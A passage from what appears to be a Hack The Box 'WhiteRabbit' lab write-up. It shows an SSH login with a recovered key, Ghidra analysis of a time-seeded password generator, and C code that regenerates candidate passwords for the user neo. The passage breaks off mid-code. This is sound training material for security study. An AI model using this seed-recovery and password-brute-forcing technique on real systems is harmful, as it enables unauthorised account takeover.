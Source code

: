 Now, we access the `morpheus` terminal using the key.
```bash
sudo ssh -i morpheus morpheus@10.10.11.63 -p 22
```

```bash
morpheus@whiterabbit:~$ cat user.txt
b0**********************REDACTED
```

### Lateral Movement

The next objective is to gain root access. In `/home`, among the users present on the system, we also have `neo`. As seen in the tables, neo's password was generated with a program found at `/opt/neo-password-generator`. We need to analyze it with **Ghidra** and examine the generation algorithm.

![ghidra-1](/htb/season7/whiterabbit/img/image10.png "ghidra-1")

There is the `gettimeofday()` function which saves, at the address of `local_28`, the value in the format `2024-08-30 14:40:42 UTC+0`. Checking the `generate_password()` function...

![ghidra-2](/htb/season7/whiterabbit/img/image11.png "ghidra-2")

the timestamp is used as a seed to generate a value and select from alphanumeric characters.

We reconstruct the program using the timestamp taken from the log table and generate all the passwords for each millisecond of that time window.
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define PASSWORD_LENGTH 20
#define CHARSET "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
#define CHARSET_SIZE 62

void generate_password(unsigned int seed, char *password) {
    srand(seed);
    for (int i = 0; i < PASSWORD_LENGTH; i++) {
        int index = rand();
        password[i] = CHARSET[index % 62];
    }
    password[PASSWORD_LENGTH] = '\0';
}

int main() {
    // Tempo: 2024-08-30 14:40:42
    struct tm tm_time = {
        .tm_year = 2024 - 1900,
        .tm_mon = 8-1,
        .tm_mday = 30,
        .tm_hour = 14,
        .tm_min = 40,
        .tm_sec = 42
    };

    time_t base_seconds = timegm(&tm_time); // tv_sec
    printf("Secondi: %ld", base_seconds);
    if (base_seconds == -1) {
        perror("Errore nel calcolo del timestamp");
        return 1;
    }

    FILE *file = fopen("neo_passwords.txt", "w");
    if (!file) {
        perror("Errore nell'apertura del file");
```
